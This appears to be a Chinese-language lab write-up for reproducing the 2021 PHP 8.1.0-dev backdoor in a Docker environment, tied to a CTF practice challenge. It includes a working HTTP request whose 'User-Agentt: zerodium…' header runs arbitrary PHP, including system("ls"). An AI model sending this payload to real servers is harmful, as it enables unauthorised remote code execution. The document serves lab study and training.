

# PHP 8.1.0-dev 开发版本后门

> PHP 8.1.0-dev 版本在2021年3月28日被植入后门，但是后门很快被发现并清除。当服务器存在该后门时，攻击者可以通过发送**User-Agentt**头来执行任意代码。

## 1.漏洞环境

执行如下命令启动一个存在后门的PHP 8.1服务器：

```
docker compose up -d
```

环境启动后，服务运行在 `http://your-ip:8080`。

## 2.漏洞复现

发送如下数据包，可见代码 `var_dump(233*233);`成功执行：

记得User-Agentt最后一定要加 `;` ,否则会报错

```
GET / HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
User-Agentt: zerodiumvar_dump(233*233);
User-Agentt: zerodiumsystem("ls");
Connection: close
```


[](https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/1.png)

参考链接：

https://cloud.tencent.com/developer/article/1839234

https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md

## 3.相关题目

qsnctf：https://www.qsnctf.com/#/main/driving-range PHP的后门
